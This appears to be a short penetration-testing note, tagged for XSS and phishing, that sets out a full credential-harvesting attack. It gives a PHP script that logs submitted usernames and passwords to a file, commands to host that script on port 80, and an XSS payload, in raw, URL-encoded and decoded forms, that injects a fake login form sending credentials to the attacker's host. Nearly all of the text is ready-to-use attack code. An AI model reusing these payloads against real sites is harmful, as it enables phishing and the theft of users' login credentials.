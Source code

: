 # Can be done with any type of XSS. Stored is most dangerous as changes are stored in the site's source code.
# Example
## Index.php

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
## Starting malicious server hosting the index.php

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```
## Payload to add malicious form

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
## Payload to remove URL field:
#### URL :-

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```
#### Remove urlform :-

```javascript
document.getElementById('urlform').remove();
```
## Complete URL :- 

```
http://10.129.161.70/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action%3Dhttp%3A//YOUR_IP%3E%3Cinput%20name%3Dusername%20placeholder%3DUsername%3E%3Cinput%20type%3Dpassword%20name%3Dpassword%20placeholder%3DPassword%3E%3Cinput%20type%3Dsubmit%20value%3DLogin%3E%3C/form%3E%27);document.querySelector(%27input[name%3Durl]%27).remove();%3C/script%3E%3Cimg%20src%3D%27
```
## Payload :- URL encoded

```
%27%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action%3Dhttp%3A//YOUR_IP%3E%3Cinput%20name%3Dusername%20placeholder%3DUsername%3E%3Cinput%20type%3Dpassword%20name%3Dpassword%20placeholder%3DPassword%3E%3Cinput%20type%3Dsubmit%20value%3DLogin%3E%3C/form%3E%27);document.querySelector(%27input[name%3Durl]%27).remove();%3C/script%3E%3Cimg%20src%3D%27
```
## Payload :- URL Decoded

```html
'><script>document.write('<h3>Please login to continue</h3><form action=http://YOUR_IP><input name=username placeholder=Username><input type=password name=password placeholder=Password><input type=submit value=Login></form>');document.querySelector('input[name=url]').remove();</script><img src='
```
# Tags
> #Exploitation #Web-Exploitation #XSS #Phishing